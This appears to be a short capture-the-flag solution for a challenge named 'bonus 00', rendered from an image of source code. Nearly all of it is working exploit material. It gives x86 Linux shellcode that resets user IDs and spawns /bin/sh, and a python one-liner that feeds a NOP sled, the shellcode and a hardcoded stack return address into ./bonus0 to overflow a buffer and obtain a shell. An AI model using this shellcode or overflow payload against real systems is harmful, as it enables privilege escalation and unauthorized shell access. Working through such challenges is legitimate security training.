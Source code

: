 # bonus 00

"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"

(python -c 'print "\x90" * 6 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"'; python -c 'print "\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x26\xf7\xff\xbf" + "C" * 7';cat) | ./bonus0
